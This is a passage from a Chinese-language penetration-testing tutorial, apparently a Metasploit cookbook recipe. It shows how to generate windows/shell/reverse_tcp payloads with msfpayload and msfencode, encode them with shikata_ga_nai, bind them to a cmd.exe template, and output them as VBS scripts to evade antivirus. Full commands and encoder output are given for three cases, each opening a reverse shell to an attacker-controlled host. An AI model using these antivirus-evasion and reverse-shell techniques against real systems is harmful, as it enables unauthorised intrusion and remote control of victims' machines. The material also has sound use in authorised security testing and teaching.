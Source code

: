 框架中有许多不同的编码器，每个编码器都使用不同的技术来混淆 shellcode。`shikata_ga_nai`编码技术实现了多态 XOR 加性反馈编码器。解码器存根是基于动态指令替换和动态块排序生成的。寄存器也是动态选择的。

## 如何做...

我将这个步骤分为三种不同的情况，以更好地理解我们如何深入挖掘这个有用的工具并发展我们自己的逻辑。

**情况 1：**我们将从对一个简单的 shell 进行编码开始。`msfpayload`和`msfencode`命令将被一起进行管道处理。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 R | msfencode -e cmd/generic_sh -c 2 -t exe > .local/encoded.exe
[*] cmd/generic_sh succeeded with size 290 (iteration=1)
[*] cmd/generic_sh succeeded with size 290 (iteration=2) 
```

让我们了解命令行。我们使用了`windows/shell/reverse_tcp` shell，并使用`R`参数生成了原始文件类型。然后，我们将`msfencode`命令进行了管道处理。`e`参数用于确定编码样式，在我们的情况下是`cmd/generic_sh`。`c`参数表示迭代次数，`t`参数表示编码后要创建的文件类型。最后，文件将在`.local`文件夹中创建，文件名为`encoded.exe`。当`encoded.exe`文件用于对我们的两个目标进行客户端攻击时，Windows XP（带有 AVG 10）和 Windows 7（带有 NOD32）都很容易识别它为威胁。它可能为我们提供了 shell 连接，但是这种活动被防病毒软件阻止了。

案例 2：现在我们将通过向 shell 添加默认的 Windows 可执行文件模板以及增加编码的迭代次数来增加这种编码的复杂性。默认模板将帮助我们通过将 shellcode 与默认的 Windows 可执行文件（如`calc.exe`或`cmd.exe`）绑定来创建一个不太可疑的文件。Windows 模板可在文件夹`/opt/framework3/msf3/lib/msf/util/../../../data/templates`中找到。

您可以通过将任何默认的 Windows 可执行文件复制到此文件夹中，然后将其用作模板来创建模板。在这个配方中，我已经将`cmd.exe`复制到这个文件夹中，以便将其用作我的 shell 的模板。那么在这种情况下，我们的命令行会是什么样子？

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 R | msfencode -e x86/shikata_ga_nai -c 20 -t exe -x cmd.exe> .local/cmdencoded.exe 
```

这种情况下唯一的额外参数是`-x`，用于指定替代可执行模板。我们使用了`cmd.exe`作为模板，这是命令提示符的默认 Windows 可执行文件。此外，我们还将编码样式更改为`shikata_ga_nai`，在`msfencode`中排名为“优秀”。在这种情况下，迭代次数也增加到了 20。在这种情况下创建的可执行文件看起来像一个`cmd.exe`可执行文件（因为模板），并且轻松地绕过了运行 AVG 10 防病毒软件的 Windows XP 目标的客户端防病毒保护。不幸的是，在我们运行最新版本的 NOD32 的 Windows 7 目标上被检测为威胁。因此，它可以用于绕过运行在 Windows 机器上的较旧版本的防病毒软件。这种技术的第二个问题是，即使在具有较旧的防病毒保护的 Windows 7/Server 2008 机器上，它也无法启动 shell。shellcode 在执行时崩溃（因为模板），即使它绕过了防病毒软件，仍然无法在较新版本的 Windows 上启动 shell。

案例 3：这种情况将克服我们在案例 2 中遇到的缺点。在这种情况下，我们将生成一个客户端脚本，而不是可执行文件。Windows 平台上众所周知的客户端脚本是 Visual Basic 脚本（.vbs）。这种技术可以用来绕过任何已知的运行在最新版本的 Windows 上的防病毒软件。VB 脚本成为绕过防病毒软件的潜在武器的原因是，它们从不被防病毒程序视为威胁，这就是为什么它们的签名从不与 VB 脚本文件匹配的原因。让我们使用`msfpayload`和`msfencode`创建一个恶意的 VB 脚本。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 r | msfencode -e x86/shikata_ga_nai -c 20 -t vbs > .local/cmdtest2.vbs
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 344 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 371 (iteration=3)
.
.
.
.
[*] x86/shikata_ga_nai succeeded with size 803 (iteration=19)
[*] x86/shikata_ga_nai succeeded with size 830 (iteration=20) 
```
